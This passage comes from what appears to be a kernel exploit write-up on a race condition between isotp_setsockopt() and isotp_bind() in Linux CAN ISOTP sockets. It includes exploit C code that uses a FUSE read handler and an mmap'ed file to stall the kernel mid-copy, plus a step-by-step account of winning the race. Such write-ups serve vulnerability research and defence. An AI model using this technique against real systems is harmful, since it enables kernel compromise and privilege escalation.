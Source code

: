 ```c
        if (offset < len) {
                if (offset + size > len)
                        size = len - offset;
                memcpy(buf, &opts + offset, size);
        } else {
                size = 0;
        }

        return size;
}
```

In this case, any read associated with the hello filesystem will be redirected to `hello_read()`.
Inside `hello_read()`, we sleep for 2 seconds, effectively halting the kernel execution at
`copy_from_sockptr()` in `isotp_setsockopt()`.
```c
	if (copy_from_sockptr(&so->opt, optval, optlen))
		return -EFAULT;
```

In the meanwhile, `isotp_bind()` will finish and bind the socket, finally setting ``so->bound`` to ``1``.
Then, we proceed with copying flags containing ``CAN_ISOTP_SF_BROADCAST`` to the kernel space.

```c
void setup_fusefs(void)
{
        fuse_fd = open("mnt/hello", O_RDWR);				       [1]
        if (fuse_fd < 0)
                die("failed to open fuse fd");

        fuse_map = mmap(NULL, sizeof(struct can_isotp_options),
				PROT_READ | PROT_WRITE, MAP_SHARED, fuse_fd, 0);   [2]

        if (fuse_map == MAP_FAILED)
                die("failed to map with fuse fs");
}
```

In my exploit, I get a fd of the filesystem ``[1]`` and mmap memory ``[2]`` similarly to userfault.
This `mmap()` will be associated with the previously opened ``fuse_fd``. As already mentioned,
any copy from the kernel space from this mmap'ed memory will be handled by `hello_read()`.

At this point, we have a properly set up FUSE filesystem which will help us to reliably win the race
condition between `isotp_setsockopt()` and `isotp_bind()`.

How does the **controlled** race condition scenario look like?

- `isotp_setsockopt()` is called on an unbound socket.
	- `copy_from_sockptr()` wants to copy `struct can_isotp_options` from the user space
	- `hello_read()` is called and goes to `sleep()` for 2 seconds, kernel execution is now halted!

- while we are in `setsockopt()`, we **now call** `isotp_bind()`
	- ``CAN_ISOTP_SF_BROADCAST`` flag is **not** set, so a CAN receiver will be registered
	- return from `isotp_bind()`, the socket is now successfully bound
